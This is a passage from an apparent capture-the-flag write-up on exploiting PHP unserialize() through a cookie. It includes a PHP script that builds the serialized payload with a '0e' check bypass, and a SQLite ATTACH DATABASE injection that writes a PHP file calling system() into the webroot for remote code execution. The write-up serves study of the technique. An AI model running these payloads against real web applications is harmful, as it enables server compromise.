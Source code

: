 So far our cookie will look something like this: `serialized_object.0e`

Now lets start constructing our exploit code. Like i said before we can provide a base64 encoded serialized object as the first part of our cookie, and once it is pass to the `unserialize` function the `__destruct()` function will go off. I wrote a simple php script that will create this object, where i can easily change the value of `$new_data` that will lead us to exploiting the SQL injection.
```
<?php

class insert_log
  {
      public $new_data;
      function __construct($data) {
        $this->new_data = $data;
    }
  }
$injection = "injection here";
$obj = new insert_log($injection);
echo urlencode(base64_encode(serialize($obj)).".0e");
echo "\n";
```

<img src="images/image16.png" width="400">

Now i can provide `$injection` and it will echo the urlencoded base64 encoded serialized object. Plus have "0e" concatenated at the end to bypass the first check.

<img src="images/image17.png" width="400">

I looked a bit online and found a nice injection from PayloadAllTheThings, i have modified it a bit so it is just a PoC and not a webshell (plus i assume the webroot is at `/var/www/html/`):

```
ATTACH DATABASE '/var/www/html/saint.php' AS saint;
CREATE TABLE saint.barber (data text);
INSERT INTO saint.barber (data) VALUES ('<?php echo <pre>; system('whoami'); ?>');--
```

This will create a SQLite database file and insert `system('whoami')` into a table named `saint` and column named `barber`. Because the database file will be named `saint.php` any php code in the file will be rendered in the browser leading us to remote code execution.
